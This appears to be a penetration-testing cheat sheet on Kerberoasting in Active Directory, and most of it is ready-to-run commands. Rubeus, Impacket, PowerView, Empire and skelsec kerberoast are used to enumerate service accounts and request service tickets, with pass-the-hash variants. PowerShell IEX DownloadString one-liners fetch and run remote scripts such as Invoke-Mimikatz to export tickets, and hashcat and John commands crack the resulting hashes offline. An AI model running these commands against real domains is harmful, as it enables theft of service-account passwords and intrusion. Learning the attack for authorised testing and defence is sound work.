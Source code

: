# Active Directory - Kerberoasting

### Overview

A Kerberoasting attack is an attack on the `Kerberos` authentication protocol
that involves compromising the password of a service account, a user account
that has a `ServicePrincipalName (SPN)`, through `service tickets` requests to
the `Ticket-Granting Service (TGS)`.

The attack is based on the fact that a part of the `service tickets` is
encrypted using one of the service account secrets (`RC4`, corresponding to
the `NTLM hash` of the service account password, and `AES 128/256 bits` keys).
The encryption type to be used can be specified client-side in order to force
the use of the `RC4` key. Thus, an offline cracking attack on the service
tickets can be conducted to retrieve the plaintext password of the
corresponding service account.   

As any authenticated user on the domain in possession of a
`Ticket-Granting Ticket (TGT)` can requests service tickets for all available
services, the service accounts password are exposed to offline cracking attack
that are much faster and can not be time restricted.  

The attack chain is as follow:
  - Identify user accounts with a `SPN` (service accounts)
  - Request service tickets for those services
  - Extract the TGS for offline cracking

###### Service Principal Names (SPN)

The `SPN` is a unique identifier of a service instance. `SPNs` are used in
`Kerberos` authentication to associate a service instance with a service
logon account. `SPN` are used to map a service running on a server to an
account it’s running as so that it can accept Kerberos authentication.

### Automated SPN discover, request and export of TGS

The following tools can be used to automate the SPN discovery and the request
and export of Service Tickets for offline cracking.

`Rubeus` permitting the filtering out AES-enabled accounts.

```
# All service accounts without AES enabled
Rubeus.exe kerberoast /rc4opsec /outfile:<FILE_PATH>

# All service accounts
Rubeus.exe kerberoast /outfile:<FILE_PATH>

# Specific service account
Rubeus.exe kerberoast /user:<USERNAME> /outfile:<FILE_PATH>
Rubeus.exe kerberoast /spn:<SPN> /outfile:<FILE_PATH>

# All service accounts in the specified domain with the provided credentials
# Note that sometimes the credentials specification may induces a bug and Rubeus should be used through a runas /Netonly session
Rubeus.exe kerberoast /rc4opsec /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /creduser:'<DOMAIN_FQDN>\<USERNAME>' /credpassword:'<PASSWORD>' /outfile:<FILE_PATH>
Rubeus.exe kerberoast /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /creduser:'<DOMAIN_FQDN>\<USERNAME>' /credpassword:'<PASSWORD>' /outfile:<FILE_PATH>

# (Powershell) Invoke-Kerberoast - Load in memory
IEX (New-Object Net.WebClient).DownloadString(‘https://gist.githubusercontent.com/0xbadjuju/0ebe02983273048c237a8b24633cee3f/raw/c385a21c230ee0e274293aa4e50b5b9ed4197df2/Invoke-Kerberoast.ps1')
Invoke-Kerberoast [[-Identity] <String[]>] [-Domain <String>] [-LDAPFilter <String>] [-SearchBase <String>] [-Server <String>] [-SearchScope <String>] [-ResultPageSize <Int32>] [-ServerTimeLimit <Int32>] [-Tombstone] [-OutputFormat <String>] [-Credential <PSCredential>]
Invoke-Kerberoast
Invoke-Kerberoast -Domain <DOMAIN> -Server <DC>
Invoke-Kerberoast -Format "John" / "Hashcat" # Default to John
Invoke-Kerberoast | Out-File <FILE>

# (Python) Impacket/examples GetUserSPNs.py
GetUserSPNs.py -dc-ip <DCIP> -request <DOMAIN>/<USERNAME>
GetUserSPNs.py -dc-ip <DCIP> -request -outputfile <FILE> <DOMAIN>/<USERNAME>
```

### Manual SPN Discovery

The following tools can be used to retrieve the SPN of the Domain services:

```
# Active Directory module
Get-ADUser -Properties servicePrincipalName -Filter "servicePrincipalName -like '*'" | Select-Object SamAccountName,servicePrincipalName
Get-ADUser -Server <DC> -Credential <PSCredential> -Properties servicePrincipalName -Filter "servicePrincipalName -like '*'" | Select-Object SamAccountName,servicePrincipalName

# PowerView
Get-DomainUser -SPN | Select-Object SamAccountName,servicePrincipalName
Get-DomainUser -SPN | ?{$_.memberof -match 'Domain Admins'}

# (Python) Impacket/examples GetUserSPNs.py
# Request service tickets for all service accounts
GetUserSPNs.py -dc-ip <DCIP> <DOMAIN>/<USERNAME>
# Request service tickets for the specific account (using the service account SamAccountName)
GetUserSPNs.py -dc-ip <DCIP> <DOMAIN>/<USERNAME> -request-user '<USERNAME>'
# Pass-the-Hash
GetUserSPNs.py -dc-ip <DCIP> -hashes <LMHASH:NTHASH> <DOMAIN>/<USERNAME>

# (Powershell) GetUserSPNs - retrieve only SPN associated to user accounts (CN=Users) - inject and run automatically
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1')

# (Powershell) Get-SPN - allows for regex searching in the account, service or group name (specified by the Type and Search parameters)
# IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/Get-SPN/Get-SPN.psm1")
Get-SPN [[-Credential] <PSCredential>] [[-DomainController] <String>] [[-Limit] <Int32>] [[-SearchScope] <String>] [[-SearchDN] <String>] [-Type] <String> [-Search] <String> [[-List] <String>] [<CommonParameters>]
Get-SPN -Type user -Search * -List yes
Get-SPN -Type service -Search "MSSQL*"
Get-SPN -DomainController <DC> -Credential <DOMAIN>\<USERNAME [...]

# Empire
usemodule situational_awareness/network/get_spn
```

Focus on the accounts with the higher probability of using a weak password,
usually user accounts with a password that has not been changed in a long time
/ not changed at all.

### Manual request and export of Service Tickets

The following tools can be used to request and export specific user Service
Tickets:

```
# (Python) Impacket/examples GetUserSPNs.py
GetUserSPNs.py -dc-ip <DC> -request-user '<USER>' <DOMAIN>/<USERNAME> # Requests TGS for the SPN associated to the USER specified (just the username, no domain needed)
GetUserSPNs.py -dc-ip <DC> -request-user '<USER>' -outputfile <FILE> <DOMAIN>/<USERNAME>

# (Python) skelsec/kerberoast
kerberoast spnroast -r <DOMAIN> -u '<USER>' <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP> # Requests TGS for the SPN associated to the USER specified (just the username, no domain needed)
kerberoast spnroast -r <DOMAIN> -u '<USER>' -n <DOMAIN>/<USERNAME>:<NTLMHASH>@<DCIP> # PtH
kerberoast spnroast -r <DOMAIN> -u '<USER>' -n <DOMAIN>/<USERNAME>:<AESKEY>@<DCIP> # Pass the Key
kerberoast spnroast -r <DOMAIN> -t <USERFILE>  <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP> # File with a list of usernames to roast, one user per line
kerberoast spnroast -r <DOMAIN> -u '<USER>' -o <FILE> <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP>

# (Powershell)
# Request TGS KerberosRequestorSecurityToken, export them using Mimikatz and convert to hash using John's kirbi2john.py

# Requests TGS for the specified SPN
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"

# Requests TGS for all SPN associated to Users accounts
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1") | ForEach-Object {try{New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.ServicePrincipalName}catch{}}

# Export tickets using mimikatz
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command 'standard::base64 "kerberos::list /export" exit'

# Empire
usemodule credentials/get_spn_tickets
usemodule credentials/mimikatz/extract_tickets
```

### Offline cracking of Service Tickets

Both `John the Ripper` (`magnumripper` fork) and `hashcat` can be used to crack
the service tickets.

The hash needs to respect the following format to be recognized by `John` /
`hashcat`:

```
# ENCRYPTION_TYPE 23 = RC4
# ENCRYPTION_TYPE 17 = AES128
# ENCRYPTION_TYPE 18 = AES256

$krb5tgs$<ENCRYPTION_TYPE>$*user$realm$test/spn*$63386[...]
```

Depending on the version used, the hash from the `PowerSploit`
`Invoke-Kerberos` cmdlet may need to be manually updated.

The following commands to crack the hash can be used:

```
# Its recommended to use Hashcat on a Windows OS for better performance due to driver compatibility
hashcat64.exe -m 13100 -r rules/best64.rule <HASHFILE> <WORDLIST>

john --wordlist=<WORDLIST> <HASHFILE>
```
